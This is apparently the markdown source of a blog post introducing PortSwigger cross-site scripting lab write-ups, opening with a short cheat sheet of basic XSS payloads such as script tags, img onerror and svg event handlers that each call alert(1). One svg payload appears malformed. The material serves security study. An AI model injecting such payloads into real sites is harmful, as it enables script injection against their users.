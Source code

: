 ```yaml
---
layout: single
title: XSS - PortSwigger
excerpt: "All Cross-site Scripting labs of PortSwigger with additional CheetSheet."
date: 2025-07-29
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - portswigger
  - Web
tags:
  - Burpsuite
  - XSS
  - XSS CheetSheet
---
```



## XSS CheetSheet

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

### Initial Payloads 

- Common JavaScript

```html
<script>alert(1)</script>
```

```html
<script>alert('XSS');</script>
```

```html
<img src=0 onerror=alert(1)>
```

```html
<body onload=alert(1)>
```

```html
<input onfocus=alert(1) autofocus>
```

```html
<a href="javascript:alert(1)">Test</a>
```

```html
<svg><animatetransform onbegin=alert(1)</svg>
```
